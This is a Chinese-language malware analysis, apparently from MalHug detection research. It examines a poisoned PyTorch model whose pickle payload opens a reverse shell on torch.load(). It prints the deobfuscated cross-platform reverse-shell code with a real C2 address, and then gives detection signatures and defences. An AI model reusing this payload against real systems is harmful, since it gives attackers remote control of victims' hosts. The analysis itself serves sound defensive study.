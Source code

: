  **Case #1: Remote Control（远程控制）**，

---

## 🎯 案例背景
- **仓库名**：`star23/baller10`（PyTorch 模型）  
- **首次披露时间**：2024-06 前后  
- **攻击目标**：模型一旦 `torch.load()` 即被激活，建立反向 shell，使攻击者远程控制受害者主机。  
- **传播方式**：与早先被删除的恶意仓库 `baller423/goober2` 手法、命名风格极其相似，疑似同一团伙。

---

## 🧩 恶意代码片段（去混淆后）
```python
# 1. 攻击者 C2 服务器
RHOST = "192.248.1.167"
RPORT = 4242

# 2. 平台探测
from sys import platform
if platform != 'win32':
    # ---------- Unix 分支 ----------
    import socket, pty, os, threading
    def a():
        s = socket.socket()
        s.connect((RHOST, RPORT))
        [os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]   # 重定向 stdin/stdout/stderr
        pty.spawn("/bin/sh")                             # 交互式 shell
    threading.Thread(target=a, daemon=True).start()
else:
    # ---------- Windows 分支 ----------
    import os, socket, subprocess, threading
    def s2p(s, p):
        while True:
            p.stdin.write(s.recv(1024).decode())
            p.stdin.flush()
    def p2s(s, p):
        while True:
            s.send(p.stdout.read(1).encode())
    s = socket.socket()
    while True:
        try:
            s.connect((RHOST, RPORT))
            break
        except:
            pass
    p = subprocess.Popen(["powershell.exe"], ... shell=True, text=True)
    threading.Thread(target=s2p, args=[s, p], daemon=True).start()
    threading.Thread(target=p2s, args=[s, p], daemon=True).start()
```

---

## 🔍 技术解析

| 步骤 | 作用 | 隐蔽点 |
|------|------|--------|
| **1. 平台探测** | 根据 `platform` 自动选择 Unix 或 Windows 版本，提高跨平台成功率 | 无硬编码平台，降低静态特征 |
| **2. 反向 Shell** | 主动连接攻击者 VPS（192.248.1.167:4242） | 出站连接，绕过传统入站防火墙 |
| **3. I/O 重定向** | `os.dup2` 把 socket 映射到 0/1/2 文件描述符，实现直接交互 | 无需额外 `nc`/`bash -i` 命令，减少静态字符串暴露 |
| **4. 多线程守护** | `daemon=True` 确保模型加载线程结束后 shell 继续存活 | 防止 Python 主线程退出导致 shell 被关闭 |
| **5. PowerShell 交互** | Windows 分支使用双向 pipe 实时转发数据 | 充分利用目标系统默认环境，无需第三方工具 |


---

## 🧪 MalHug 的检测点
1. **Pickle 反序列化分析**：通过 Fickling 还原 AST，发现 `runpy._run_code` + 大段字符串 payload。  
2. **污点传播**：socket、subprocess、pty、os.dup2 等 API 形成 “网络 → 命令执行” 的污点链。  
3. **YARA 规则**：匹配 `/dev/tcp/*`、`powershell.exe`、`192.248.1.167` 等特征，即使变量名混淆也能命中。

---

## 🛡️ 防御建议
- **模型来源校验**：只加载官方/可信作者模型。  
- **格式转换**：将 `.bin/.pth` 转成 **Safetensors**，彻底消除 pickle 执行风险。  
- **运行时隔离**：在容器或无网络环境中加载不可信模型。  
- **MalHug 持续监控**：在 CI/CD 或内部镜像库中集成 MalHug，自动阻断此类恶意权重。

---

### ✅ 一句话总结
> **Case1 展示了攻击者如何把“反向 shell”塞进 PyTorch 权重，借助 pickle 的任意代码执行能力，在用户毫无感知的情况下完成远程控制。**